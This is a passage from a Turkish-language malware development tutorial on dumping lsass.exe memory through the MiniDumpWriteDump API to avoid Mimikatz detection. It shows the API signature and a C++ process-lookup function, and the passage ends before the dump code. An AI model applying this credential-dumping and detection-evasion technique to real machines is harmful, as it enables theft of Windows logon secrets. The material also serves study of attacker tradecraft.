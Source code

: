 \newpage
\subsection{41. kötü amaçlı yazılım geliştirme hilesi. lsass.exe dökümü. Basit C++ örneği.}

﷽

![av-evasion](./images/95/2023-05-11_16-29.png){width="80%"}      

Bugün, Mimikatz kullanmadan nasıl `lsass.exe` dökümü alabileceğimizi göstermek istiyorum: `MiniDumpWriteDump` API'si aracılığıyla. [Mimikatz](https://github.com/gentilkiwi/mimikatz) çok ünlü bir araç olduğu için kolayca tespit edilebiliyor, bu nedenle siber saldırganlar, onun bazı özelliklerini yeniden uygulamak için yeni hileler buluyorlar.      

### pratik örnek  

Peki, basit bir `lsass.exe` işlem dökümanı nasıl yazabiliriz? `MiniDumpWriteDump` kullanıyoruz:    

```cpp
BOOL MiniDumpWriteDump(
  [in] HANDLE                            hProcess,
  [in] DWORD                             ProcessId,
  [in] HANDLE                            hFile,
  [in] MINIDUMP_TYPE                     DumpType,
  [in] PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  [in] PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  [in] PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```

`MiniDumpWriteDump` işlevi, bir Windows API işlevidir ve bir minidump dosyası oluşturur. Bu dosya, işlev çağrıldığında uygulamanın durumunun küçük bir anlık görüntüsüdür. Bu dosya, hata ayıklama amacıyla kullanışlı olabilir, çünkü istisna bilgilerini, yüklenen DLL'lerin listesini, yığın bilgilerini ve diğer sistem durumu bilgilerini içerir.     

İlk olarak, `lsass.exe` işlemini, aşağıdaki gibi bir işlev aracılığıyla buluruz:

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
```